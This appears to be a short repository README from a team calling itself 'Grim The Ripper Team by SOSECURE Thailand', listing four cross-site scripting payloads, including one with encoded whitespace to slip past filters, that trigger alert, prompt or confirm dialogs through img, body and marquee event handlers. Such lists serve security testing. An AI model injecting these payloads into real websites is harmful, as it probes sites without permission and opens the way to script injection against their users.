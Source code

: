 # Grim The Ripper Team by SOSECURE Thailand

## XSS Payloads
`<img/&#09;&#10;&#11; src=~ onerror=prompt(1)>`

`<BODY ONLOAD=alert('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>`

`<img src=x onerror=confirm('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>`

`<marquee BODY ONSTART=alert('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>=(◕_◕)=`
